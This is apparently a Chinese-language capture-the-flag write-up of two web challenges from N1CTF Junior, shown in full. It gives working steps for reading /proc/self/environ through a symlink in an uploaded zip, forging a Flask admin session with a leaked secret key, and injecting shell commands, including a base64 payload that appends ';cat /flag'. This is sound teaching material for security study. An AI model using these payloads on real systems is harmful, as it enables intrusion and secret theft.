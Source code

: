 N1CTF Junior 3rd 2/2(Jeopardy) 复现

#### online_unzipper

```
online_unzipper
```

核心代码

```python
@app.route("/upload", methods=["GET", "POST"])
def upload():
    if "username" not in session:
        return redirect(url_for("login"))

    if request.method == "POST":
        file = request.files["file"]
        if not file:
            return "未选择文件"

        role = session["role"]

        if role == "admin":
            dirname = request.form.get("dirname") or str(uuid.uuid4())
        else:
            dirname = str(uuid.uuid4())

        target_dir = os.path.join(UPLOAD_FOLDER, dirname)
        os.makedirs(target_dir, exist_ok=True)

        zip_path = os.path.join(target_dir, "upload.zip")
        file.save(zip_path)

        try:
            os.system(f"unzip -o {zip_path} -d {target_dir}")
        except:
            return "解压失败，请检查文件格式"

        os.remove(zip_path)
        return f"解压完成！<br>下载地址: <a href='{url_for('download', folder=dirname)}'>{request.host_url}download/{dirname}</a>"

    return render_template("upload.html")
```

发现admin可以直接将保存名设置为文件名，这里可以导致文件名的命令注入。但是注册后默认是user，考虑篡改session来改成admin。

```python
app.secret_key = os.environ.get("FLASK_SECRET_KEY", "test_key")
```

想要篡改session要先获取```flask secret_key```，发现可以从环境变量```FLASK_SECRET_KEY```中获取，故可以找方法尝试访问```/proc/self/environ```

通过学习后发现可以构造带有指向```/proc/self/environ```的符号链接文件并压缩上传

```shell
ln -s -T /proc/self/environ my_link_file
zip -y my_archive.zip my_link_file
```

上传```my_archive.zip```后可以下载```my_link_file```，读取到了环境变量

```tex
HOSTNAME=79556ae2b6cf HOME=/root GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_SHA256=8fb5f9fbc7609fa822cb31549884575db7fd9657cbffb89510b5d7975963a83a FLASK_APP=app.py FLASK_RUN_HOST=0.0.0.0 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin LANG=C.UTF-8 FLASK_SECRET_KEY=test PYTHON_VERSION=3.11.13 PWD=/app FLAG= 
```

得到```FLASK_SECRET_KEY=test```，现在可以构造session来修改成admin权限，使用flask_session_cookie_manager工具来伪造session

```cmd
python .\flask_session_cookie_manager3.py encode -s 'test' -t "{'role':'admin','username':'123'}"
eyJyb2xlIjoiYWRtaW4iLCJ1c2VybmFtZSI6IjEyMyJ9.aMldaQ.CkPpAM5fpdijLJIUVLHAedFpVGk
```

得到的session改完后，刷新发现变成了admin了，现在可以构造文件名来将flag移动到能够读取的```/uploads/```下来读取flag（至于为什么要移动到/upload/下，是因为这个文件夹存在且其下面的文件可以被读取，下载附件可以看到容器中是有```/uploads/```这个文件夹的）

在dirname后拼接命令，可以让

```python
os.system(f"unzip -o {zip_path} -d {target_dir}")
```

执行的时候拼接的命令

![image-20250916214542711](./image/image-20250916214542711.png)

（这里先创建```/uploads/123/```文件夹，才能够move）

![image-20250916214514358](./image/image-20250916214514358.png)

最后访问```/downloads/123```，可以下载flag

![image-20250916214647724](./image/image-20250916214647724.png)

最后这个命令拼接构造尝试了好久，是根据docker desktop里面的命令执行返回信息来进行进一步修改的，正式比赛的时候需要最大化利用题目给的题目源码和docker，并且可以适当修改代码来获取debug信息，便于自己更好地理解。

---

#### ping

```
是熟悉的ping
```

核心代码

```python
def run_ping(ip_base64):
    try:
        decoded_ip = base64.b64decode(ip_base64).decode('utf-8')
        if not re.match(r'^\d+\.\d+\.\d+\.\d+$', decoded_ip):
            return False
        if decoded_ip.count('.') != 3:
            return False
        
        if not all(0 <= int(part) < 256 for part in decoded_ip.split('.')):
            return False
        if not ipaddress.ip_address(decoded_ip):
            return False
        if len(decoded_ip) > 15:
            return False
        if not re.match(r'^[A-Za-z0-9+/=]+$', ip_base64):
            return False
    except Exception as e:
        return False
    command = f"""echo "ping -c 1 $(echo '{ip_base64}' | base64 -d)" | sh"""

    try:
        process = subprocess.run(
            command,
            shell=True,
            check=True,
            capture_output=True,
            text=True
        )
        return process.stdout
    except Exception as e:
        return False
```

仔细阅读源码之后可知，用户会往前端传一个ip4地址，然后前端经过base64编码后发送给后端，后端会将其解码后严格检查是不是ip4地址，然后再利用编码后的ip4地址来在shell里面解码并且ping。

我们可以考虑通过控制```ip_base64```来进行命令注入，即在ping的命令后直接用分号阶段然后再rce

```shell
; cat /flag
```

但是难点在于，源码对ip4地址的检查非常的严格，只要不满足```数字.数字.数字.数字```的ip地址则会被直接ban掉，所以直接往正常ip地址后直接拼接命令是不行的。

这里有一点比较可疑，为什么源码在构造ping命令的时候不直接使用已经解密过的ip地址，而是要使用没解码过的地址然后再在shell里面进行解码。

经过尝试后发现，python的base64解码并不会对```=```padding之后的内容继续进行解码，而sh中的base64会对之后的内容继续解码。那么可以凭借这个差异，拼接两段base64编码字段，来绕过对ip地址严格的格式限制。

这里我们要找一个编码后有padding且ping地通的地址，比如```0.0.0.0```，然后我们再将```;cat /flag```进行编码，两段直接拼接再传过去就行了。

```
'0.0.0.0' -> 'MC4wLjAuMA=='
';cat /flag' -> 'O2NhdCAvZmxhZw=='

payload:
{
	"ip_base64": "MC4wLjAuMA==O2NhdCAvZmxhZw=="
}
```

这道题启发自己还是要更加仔细地阅读源码，不放过每一处可疑点，每一个不同于通常思路的写法可能会藏在意想不到的突破口。